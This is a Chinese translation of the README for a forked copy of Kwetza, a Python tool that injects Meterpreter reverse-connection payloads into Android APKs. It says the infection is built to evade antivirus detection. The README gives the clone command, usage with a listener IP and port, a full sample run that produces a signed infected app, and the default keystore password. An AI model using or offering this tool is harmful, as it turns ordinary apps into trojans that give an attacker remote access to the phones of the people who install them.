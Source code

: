 # 介绍
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza是一种工具，可让您将Meterpreter payload植入到Android应用程序。
# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# 它有什么作用？

Kwetza使用自定义或默认payload模板感染现有的Android应用程序，以避免被杀病毒软件检测出来。Kwetza允许您使用目标应用程序的默认权限感染Android应用程序，或注入其他权限以获得其他功能。
# 在哪里可以获得博客文章？
可以在以下位置找到由Kwetza自动化的手动步骤：https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# 获取代码

首先获取代码：
```
git clone https://github.com/2487686673/Kwetza.git
```

Kwetza用Python编写，需要BeautifulSoup，可以使用pip安装：
```
pip install beautifulsoup4
```
Kwetza要求安装Apktool并可以通过您的PATH访问。可以使用位于此处的安装说明进行设置：https://ibotpeaches.github.io/Apktool/install
# 用法

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = 希望植入payload的apk文件名

* LHOST = 监听IP

* LPORT = 监听端口

* yes/no = 选择yes则会添加额外的权限，选择no则会利用app原来的权限

* customClass = 如果希望Kwetza注入到此活动，请在此处指定自定义活动。

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# 信息
Kwetza以Python2开发。

Kwetza默认会使用payload文件夹下的模板和keystore在apk中植入恶意payload。

如果要用自己的证书签署应用，把你的keystore重命名为mykey.keystore放在payload文件夹下。

你也可以用同样的方法替换默认的payload模板

默认keystore的密码是”password”

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
